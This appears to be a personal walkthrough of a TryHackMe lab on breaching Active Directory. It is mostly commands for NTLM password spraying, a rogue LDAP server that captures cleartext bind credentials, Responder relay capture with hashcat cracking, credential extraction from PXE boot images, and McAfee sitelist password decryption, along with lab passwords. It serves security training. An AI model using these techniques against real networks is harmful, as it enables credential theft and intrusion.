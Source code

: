# Breaching Active Directory

**Room Link:** [https://tryhackme.com/room/breachingad](https://tryhackme.com/room/breachingad)



## Introduction to AD Breaches

**Kali**

```
systemd-resolve --interface breachad --set-dns $THMDCIP --set-domain za.tryhackme.com
nslookup thmdc.za.tryhackme.com
```

## NTLM Authenticated Services

**Kali**

```
unzip passwordsprayer.zip 
python /root/Rooms/BreachingAD/task3/ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a "http://ntlmauth.za.tryhackme.com"
```

<figure><img src="../../.gitbook/assets/image (15) (8).png" alt=""><figcaption></figcaption></figure>

## LDAP Bind Credentials

**Kali**

```
service slapd stop
nc -lvp 389
```

<figure><img src="../../.gitbook/assets/image (9) (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (10).png" alt=""><figcaption></figcaption></figure>

### Hosting a Rogue LDAP Server

**Kali**

```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
sudo dpkg-reconfigure -p low slapd
```

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
vi olcSaslSecProps.ldif
```



**olcSaslSecProps.ldif**

```
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

The file has the following properties:

* olcSaslSecProps: Specifies the SASL security properties
* noanonymous: Disables mechanisms that support anonymous login
* minssf: Specifies the minimum acceptable security strength with 0, meaning no protection.

Now we can use the ldif file to patch our LDAP server using the following:

**Kali**

```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

**Before**

<figure><img src="../../.gitbook/assets/image (12) (10).png" alt=""><figcaption></figcaption></figure>

**After**

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

### Capturing LDAP Credentials

Our rogue LDAP server has now been configured. When we click the "Test Settings" at [http://printer.za.tryhackme.com/settings.aspx](http://printer.za.tryhackme.com/settings.aspx), the authentication will occur in clear text. If you configured your rogue LDAP server correctly and it is downgrading the communication, you will receive the following error: "This distinguished name contains invalid syntax". If you receive this error, you can use a tcpdump to capture the credentials using the following command:



<figure><img src="../../.gitbook/assets/image (6) (5) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sudo tcpdump -SX -i breachad tcp port 389
```

<figure><img src="../../.gitbook/assets/image (1) (1) (2) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (9).png" alt=""><figcaption></figcaption></figure>



## Authentication Relays

**Kali**

```
sudo service slapd stop
sudo responder -I breachad
```

<figure><img src="../../.gitbook/assets/image (7) (5) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (9) (2) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hashcat -m 5600 hash.txt passwordlist.txt --force 
hashcat -m 5600 hash.txt passwordlist.txt --force --show
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

## Microsoft Deployment Toolkit

**Kali**

```
ssh thm@THMJMP1.za.tryhackme.com
Password: Password1@
```

**Victim**

```
cd Documents
mkdir thm
copy C:\powerpxe thm
cd thm
```

**Victim**

```
tftp -i $THMMDTIP GET "\Tmp\x64{39...28}.bcd" conf.bcd
```

**Victim**

```
powershell -executionpolicy bypass
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile
```

**Victim**

```
tftp -i $THMMDTIP  GET "<PXE Boot Image Location>" pxeboot.wim
```

**Victim**

```
Get-FindCredentials -WimFile pxeboot.wim
```

## Configuration Files

**Victim**

```
cd C:\ProgramData\McAfee\Agent\DB
```

**Victim**

```
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
Password: Password1@
```

**Kali**

```
sqlitebrowser ma.db
```

**Kali**

```
cp /root/Rooms/BreachingAD/task7/mcafeesitelistpwddecryption.zip .
unzip mcafeesitelistpwddecryption.zip
```

<figure><img src="../../.gitbook/assets/image (4) (1) (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python2 mcafee-sitelist-pwd-decryption-master/mcafee_sitelist_pwd_decrypt.py  jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
```

<figure><img src="../../.gitbook/assets/image (18) (7).png" alt=""><figcaption></figcaption></figure>
